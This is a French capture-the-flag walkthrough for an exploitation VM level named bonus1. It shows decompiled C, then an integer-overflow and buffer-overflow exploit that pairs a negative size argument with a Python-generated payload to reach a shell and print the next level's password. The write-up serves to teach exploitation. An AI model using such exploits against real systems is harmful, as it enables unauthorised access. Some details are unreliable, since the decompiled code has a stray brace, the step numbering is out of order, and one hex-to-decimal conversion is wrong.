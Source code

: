 # BONUS 1
## Walkthrough

Voici les étapes suivit pour accéder au niveau supérieur, soit le `bonus2`.

1. Une fois connecté à la VM sur le `bonus1`, l'on retrouve un fichier `bonus1` situé à la racine du dossier utilisateur. Ce dernier s'avère être de nouveau un exécutable ELF (Executable and Linkable Format).

2. On extrait ce fichier sur la machine host soit en utilisant la commande `scp` soit en utilisant un logiciel créer à cet effet.

	```sh
	> scp -P 4242 bonus1@127.0.0.1:bonus1 /path/on/machine/host
	```

3. On ouvre ensuite ce fichier dans Ghidra et après analyse, on obtient le désassemblage ci-dessous (que l'on refactorise pour plus de clarté).

    ```sh
    #include <stdlib.h>
    #include <stdio.h>
    #include <string.h>
    #include <unistd.h>
    #include <sys/types.h>
    #include <time.h>
    #include <stdbool.h>

    int main(int argc, char** argv)
    {
    	int uVar1;
    	char buffer[40];
    	int size = atoi(argv[1]);

    	if (size < 10) {
    		memcpy(buffer, argv[2], size * 4);
    		if (size == 0x574f4c46)
    			execl("/bin/sh","sh",0);
    		}
    		uVar1 = 0;
    	} else {
    		uVar1 = 1;
    	}
    	return uVar1;
    }
    ```

    À partir de ce désassemblage, on en déduit que notre programme ne possède qu'une seule fonction `main` qui prends les arguments traditionnelles `int argc` et `char ***argv`).

    En court, le programme semble attendre deux arguments. Le premier doit être un entier inférieur à `10`, et le second doit être une chaîne de caractères. Si le premier argument est inférieur à `10`, le code copie une partie du premier argument dans un tampon, puis vérifie si la partie copiée est égale à `WOLF` (la valeur `ASCII` de `1463249894` est `WOLF`). Si c'est le cas, le programme lance un `shell interactif` et renvoie `0`. Sinon, le programme retourne `1`.

7. L'objectif ici est donc de provoquer un `overflow` de la variable `buffer` pour exécuter le code associé en passant des arguments spécifiques. Selon le désassemblage, le premier argument doit être un entier inférieur à `10` et équivalent à la valeur hexadécimale de `WOLF`. Comme le programme utilise ensuite `argv[2]` pour copier `4 * size` octets, où `size` est la taille de `argv[1]`, dans un tampon de `40 octets`, le premier argument doit être préalablement divisé par `4` pour éviter une multiplication inattendue dans `buffer`. Puisque la taille de `buffer` est de `40 octets` et que `WOLF` contient `4 octets`, un débordement de `44 octets` via le second argument est nécessaire pour atteindre et modifier le flux d'exécution.

5. A présent, on peut commencer à générer les differents `payloads` nécessaires à l'exploitation de ce programme.

    - Premier `payload` :

        La création du premier `payload` s'effectue en déterminant la valeur maximale d'un entier non signé, `MAX_UNSIGNED_INT`, puis en calculant la différence entre cette valeur maximale et la somme des tailles de `buffer` et de la chaîne de caractères `WOLF`. Cette différence, équivalente à `MAX_UNSIGNED_INT - 44`, doit ensuite être divisée par 4. Le résultat, arrondi à l'entier inférieur et multiplié par `-1`, donne ainsi le premier argument nécessaire pour déclencher le débordement de tampon dans le programme.

        ```sh
        MAX_UNSIGNED_INT = 4294967295
		MAX_UNSIGNED_INT - (sizeof(buffer) + sizeof("WOLF")) = MAX_UNSIGNED_INT - 44
		(MAX_UNSIGNED_INT - 44) / 4 = 1073741812.75 ≈ -1073741812
        ```

        De ce fait, on obtient le premier `payload`, soit la valeur `-1073741812`.

    - Second `payload` :

        ```sh
    	python -c "print('\x90' * 40 + 'FLOW')"
        ````

        On a :
        - `'\x90' * 40`: L'overflow du buffer nécessaire ;
        - `'FLOW'`: La chaine de caractère `WOLF` en format `little-endian`.

6. Il manque plus qu'à lancer le programme avec les `payloads` précédemment définies pour `buffer overflow` et lancer le `shell interactif`. On exécute la fonction `whoami` pour s'assurer que l'on est bien l'utilisateur `bonus2` et non plus l'utilisateur `bonus1`. Enfin, on `cat` le fichier `/home/user/bonus2/.pass` pour obtenir le mot de passe.

    ```sh
    > ./bonus1 -1073741812 $(python -c "print('\x90' * 40 + 'FLOW')")
    > whoami
    bonus2
    > cat /home/user/bonus2/.pass
    579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
    ```

7. On peut à présent passer au niveau supérieur en exécutant la commande `su bonus2` et en y spécifiant le mot de passe qui vient d'être trouvée.

    ```sh
    > su bonus2
    Password :
    > 579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
    ```
